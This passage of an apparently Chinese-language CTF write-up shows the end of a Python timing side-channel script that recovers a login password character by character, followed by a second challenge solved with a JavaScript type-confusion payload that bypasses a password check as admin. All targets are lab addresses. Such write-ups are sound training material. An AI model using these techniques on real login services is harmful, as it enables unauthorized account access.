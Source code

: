 ```python
                st_time = time.time()
                resp = session.post('http://10.20.26.32:32783/login', data={'username': username, 'password': password}, timeout=10)
                ed_time = time.time()
                assert resp.status_code == 200
                time.sleep(1)
                mean_time_cost.append(ed_time - st_time)
            mean_time_cost = sum(mean_time_cost) / test_time
            if mean_time_cost > max_time:
                max_time, max_time_ch = mean_time_cost, passwd_ch
            print(f'passwd_ch: {passwd_ch}, mean_time_cost: {mean_time_cost}')
            passwdch_time_map[passwd_ch] = mean_time_cost
            json.dump(passwdch_time_map, open(f'passwdch_time_map_{step}.json', 'w'), indent=4, ensure_ascii=False)
        sured_password += max_time_ch
        print(f'password: {sured_password}, max_time_ch: {max_time_ch}, max_time: {max_time}')
        json.dump(passwdch_time_map, open(f'passwdch_time_map_{step}.json', 'w'), indent=4, ensure_ascii=False)


if __name__ == '__main__':
    while True:
        try:
            bf_measure_time()
            break
        except Exception as e:
            time.sleep(5)
    pass
```

> fductf{aZ3Lx6zUJQ}

## 一模一样的毕业设计

看到这个 sha512 `cf83e1357eefb8bdf1542850d66d8007d620e4050b5715dc83f4a921d36ce9ce47d0d13c5d85f2b0ff8318d2877eec2f63b931bd47417a81a538327af927da3e`，可以知道是表示空串。那么这就很有意思，既要 `password.length >= 2048`，json 还有传输限制，还要 password 反转后是空串。那显然就是要利用一下 js 的弱类型特性。本地用 nodejs 调试一下，发现

```javascript
{"length": "renatus", "renatus": "", 0: ""}
```

是可以满足要求的，那就用这个了。直接 python requests 一下即可。

```python
import os
import requests
import hashlib

payload = {
    "username": "admin",
    "password": {"length": "renatus", "renatus": "", 0: ""},
}

def sha512(s):
    sha512_hash = hashlib.sha512()
    sha512_hash.update(s)
    hash_value = sha512_hash.hexdigest()
    return hash_value

# print(sha512(payload['password']))
# exit(0)
resp = requests.post('http://10.20.26.32:32786/', json=payload)

print(resp)
```